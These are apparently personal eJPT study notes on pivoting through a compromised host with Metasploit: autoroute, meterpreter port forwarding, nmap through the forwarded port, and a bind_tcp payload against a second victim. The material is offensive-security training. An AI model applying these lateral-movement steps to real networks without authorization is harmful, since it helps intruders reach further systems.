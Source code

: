 ![](<Images/Pasted image 20240121132113.png>)
![](<Images/Pasted image 20240121132405.png>)
![](</Images/Pasted image 20240121132443.png>)

For eJPT only metasploit is available for this. Other tools to look at chisel and ligolo-ng for later use

1. gain access to victim 1 first
2. use ipconfig or ifconfig
3. add new route inside meterpreter via below

>network output from victim 1
```
IPv4 Address : 10.0.29.148
IPv4 Netmask : 255.255.240.0
```

>run autoroute from metasploit via CIDR notation from above info
```
run autoroute -s 10.0.29.0/20
```

4. background the session to run port scanning since route is only inside metasploit
5. search `portscan` or type `auxiliary/scanner/portscan/tcp`
6. set options aka scan victim 2 address. doesn't return great info like versions. Need actual nmap which requires port forwarding
7. reactivate meterpreter session and run `portfwd add -l 1234 -p <remote port> -r <victim 2 IP>`
8. That will forward victim 2 to kali port 1234. now run nmap on kali
9. Run nmap like normal `nmap -sV -p 1234 localhost`
10. Exploit like normal just need to remember it's localhost and port 1234 or whatever specified in step 7. i.e. set options in metasploit
	- `set PAYLOAD windows/meterpreter/bind_tcp`
	- `set RHOSTS <viictim 2>`

post/multi/gather/ping_sweep\

### Broadcast Ping

```bash
ping 192.168.1.255
``` 

>add `-b` for linux